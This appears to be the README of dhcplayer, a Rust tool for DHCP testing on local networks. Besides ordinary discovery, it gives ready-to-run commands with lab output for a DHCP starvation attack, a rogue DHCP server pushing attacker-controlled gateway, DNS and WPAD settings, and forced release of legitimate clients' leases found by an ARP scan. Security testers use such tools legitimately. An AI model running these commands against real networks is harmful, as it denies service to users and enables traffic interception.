 # DHCPlayer

[![Crates.io](https://img.shields.io/crates/v/dhcplayer)](https://crates.io/crates/dhcplayer)
[![Language Rust](https://img.shields.io/badge/Language-Rust-blue)](https://www.rust-lang.org/)


dhcplayer is a tool to perform several actions using the DHCP protocol, both as client or server. It allows you to perform simple DHCP requests but also perform some known attacks like DHCP starvation or setting a sogue DHCP server.


In order to run dhcplayer, you need `root` privileges to be able to create raw sockets.


## Installation

To install:
```
$ cargo install dhcplayer
```

## DHCP Server

You can create a DHCP server with the `server` command. In the server you can use the parameters to configure the following options:

- Available IP Range
- Broadcast Address
- Network Mask
- Router/Gateway IP (by default your IP)
- DNS server IP(s) (by default your IP)
- WPAD file (disabled by default)
- NetBIOS/WINS name server (disabled by default)

```bash
$ sudo dhcplayer server -I eth0 -v --dns 192.168.122.5 --wpad http://wpadserver.local/wpad.dat --netbios 192.168.122.4 --start-ip 192.168.122.60 --end-ip 192.168.122.70
INFO - IP pool: 192.168.122.61-192.168.122.69
INFO - Mask: 255.255.255.0
INFO - Broadcast: 192.168.122.70
INFO - DHCP: 192.168.122.81
INFO - DNS: [192.168.122.5]
INFO - Router: [192.168.122.81]
INFO - Netbios: [192.168.122.4]
INFO - WPAD: http://wpadserver.local/wpad.dat
INFO - DISCOVER from 52:54:00:97:9a:b7
INFO - Offer 192.168.122.69
INFO - REQUEST from 52:54:00:97:9a:b7
INFO - Requested IP 192.168.122.69
INFO - ACK to 192.168.122.69 for 52:54:00:97:9a:b7

```

## Starvation Attack

You can launch a DHCP Starvation attack against DHCP servers by using the `starv` command.

The `starv` command will request all the available IP addresses offered by the DHCP servers in the network. If you want to just target specific servers, you can use the `servers` parameter.

```bash
$ sudo dhcplayer starv -I eth0 --server 192.168.122.1
192.168.122.80 90:25:4f:b0:51:04
192.168.122.118 eb:a3:fd:f4:26:d5
192.168.122.134 c6:f3:bd:ae:d9:ae
...
```

To stop the attack you need to press Ctrl-C. When the attack is stopped, by default, all the acquired IPs will be released. In case you don't want to release them, you can use the `-n/--no-release` flag.


## Discover

The discover command allows you to discover an request the IPs available from a DHCP server.

In the most basic use the command will request an IP from any DHCP server. If you want to request an specific server, you can use the `server` parameter.

```bash
$ sudo dhcplayer discover -I eth0
ACK received from 192.168.122.81
Acquired IP: 192.168.122.67
Client MAC: 52:54:00:97:9a:b7
Options:
[54] DHCP Server ID: 192.168.122.81
[51] IP Address Lease Time: 3600
[58] Renewal Time: 1800
[59] Rebinding Time: 3150
[1] Subnet Mask: 255.255.255.0
[28] Broadcast Address: 192.168.122.70
[3] Router: 192.168.122.81
[6] Domain Server: 192.168.122.5

```

### Discover DHCP servers

Moreover, you can send DISCOVER messages without requesting the IP addresses. You can do this with the `-n/--no-request` flag. In that case, dhcplayer will listen for all the offers made by all the DHCP servers, if there are more than one in the network. 

It can be useful to specify `--options all` to request all the information from a DHCP server.

```bash
$ sudo dhcplayer discover -I eth0 -n --options all

OFFER received from 192.168.122.1
Offered IP: 192.168.122.82
Client MAC: 52:54:00:97:9a:b7
DHCP Server: 192.168.122.1
Options:
[54] DHCP Server ID: 192.168.122.1
[51] IP Address Lease Time: 3600
[58] Renewal Time: 1800
[59] Rebinding Time: 3150
[1] Subnet Mask: 255.255.255.0
[28] Broadcast Address: 192.168.122.255
[3] Router: 192.168.122.1
[6] Domain Server: 192.168.122.1

```

### Inform

Additionally, you can send an INFORM petition instead of DISCOVER by using the `-i/--inform` flag of the `discover` command.

```bash
$ sudo dhcplayer discover -I eth0 -i --options wpad,dns --server 192.168.122.1 -v
INFO - INFORM sent - Client MAC 52:54:00:97:9a:b7

ACK received from 192.168.122.1
Acquired IP: 0.0.0.0
Client MAC: 52:54:00:97:9a:b7
Options:
[54] DHCP Server ID: 192.168.122.1
[1] Subnet Mask: 255.255.255.0
[28] Broadcast Address: 192.168.122.255
[6] Domain Server: 192.168.122.1

```

## Release

You can use the release `command` to release IPs that were acquired by you or other peer. For this you need to specify the IP and the MAC address of the client you want to release.

You can specify the pairs IP/MAC with the format `<ip>-<mac>`. You can indicate the pairs in the command line, or pass them through a file or stdin.

```bash
$ sudo dhcplayer release -I eth2 --server 192.168.100.2 192.168.100.5-ca:2b:d1:21:17:86 192.168.100.7-fe:38:4e:46:95:d6 -v
INFO - RELEASE 192.168.100.5 ca:2b:d1:21:17:86
INFO - RELEASE 192.168.100.7 fe:38:4e:46:95:d6
```


You can also combine this command with an ARP scan to release the IPs of legit clients. The release clients probably continue using its IPs, but those are free to be assigned to other peer, which may cause some problems in the network.

```
$ sudo arplayer scan -I eth2 -w 10 | sudo dhcplayer release -I eth2 --server 192.168.100.2 -v
INFO - RELEASE 192.168.100.1 52:54:00:5b:49:5d
INFO - RELEASE 192.168.100.2 52:54:00:0b:75:57
INFO - RELEASE 192.168.100.7 52:54:00:a4:8c:f2
INFO - RELEASE 192.168.100.5 52:54:00:76:87:bb
```

# Disclaimer

Please, don't use this tool for bad things. I won't assume any responsibility for your actions with this tool.
